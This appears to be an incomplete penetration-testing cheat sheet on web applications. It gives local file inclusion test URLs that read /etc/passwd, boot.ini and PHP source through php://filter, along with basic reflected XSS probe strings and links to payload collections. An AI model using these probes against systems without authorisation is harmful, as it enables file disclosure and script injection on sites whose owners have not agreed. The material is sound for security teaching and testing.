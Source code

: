 ## Web Application

### Web Remote code


### LFI (Local File Inclusion)

Situation

```
http://<target>/index.php?parameter=value
```

#### How to Test

```
http://<target>/index.php?parameter=php://filter/convert.base64-encode/resource=index
```

```
http://<target>/script.php?page=../../../../../../../../etc/passwd

```

```
http://<target>/script.php?page=../../../../../../../../boot.ini
```

#### LFI Payloads

* [Payload All the Things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion/Intruders)
* [Seclist LFI Intruder](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI)

### encode



## XSS

### Reflected

#### Simple test
This is a simple test to see what happens, this is not a prove that the field is vuln to xss

```javascript
<plaintext>
```

#### Simple XSS test

```javascript
<script>alert('Found')</script>
```

```javascript
"><script>alert(Found)</script>">
```
